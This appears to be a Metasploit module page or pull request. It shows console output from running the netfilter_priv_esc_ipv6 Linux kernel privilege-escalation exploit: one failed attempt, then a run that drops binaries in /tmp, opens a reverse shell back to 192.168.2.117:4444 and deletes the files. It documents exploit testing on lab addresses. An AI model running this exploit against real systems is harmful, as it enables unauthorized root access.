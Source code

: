 
#### Escalate w/ pre-compiled binaries

    msf exploit(netfilter_priv_esc_ipv6) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to cxvXS1Et (7808 bytes)
    [*] Max line length is 65537
    [*] Writing 7808 bytes in 1 chunks of 21956 bytes (octal-encoded), using printf
    [*] Writing to euPEmXEw (9264 bytes)
    [*] Max line length is 65537
    [*] Writing 9264 bytes in 1 chunks of 23971 bytes (octal-encoded), using printf
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting... This may take around 2min to complete.
    [*] /bin/sh: 107: /tmp/cxvXS1Et: not found
    [*] Exploit completed, but no session was created.
    msf exploit(netfilter_priv_esc_ipv6) > reload
    [*] Reloading module...
    exploitmsf exploit(netfilter_priv_esc_ipv6) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables is loaded in kernel
    [+] ip6_tables.ko is loaded
    [+] Kernel 4.4.0.pre.21.pre.generic is vulnerable
    [+] libc6-dev-i386 is installed
    [*] Writing to /tmp/cxvXS1Et (7808 bytes)
    [*] Max line length is 65537
    [*] Writing 7808 bytes in 1 chunks of 21956 bytes (octal-encoded), using printf
    [*] Writing to /tmp/euPEmXEw (9264 bytes)
    [*] Max line length is 65537
    [*] Writing 9264 bytes in 1 chunks of 23971 bytes (octal-encoded), using printf
    [*] Writing to /tmp/tlbHJ3An (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting... This may take around 2min to complete.
    [*] Sending stage (38 bytes) to 192.168.2.137
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.137:32774) at 2016-10-25 16:11:25 -0400
    [+] Deleted /tmp/cxvXS1Et
    [+] Deleted /tmp/euPEmXEw
    [+] Deleted /tmp/tlbHJ3An
    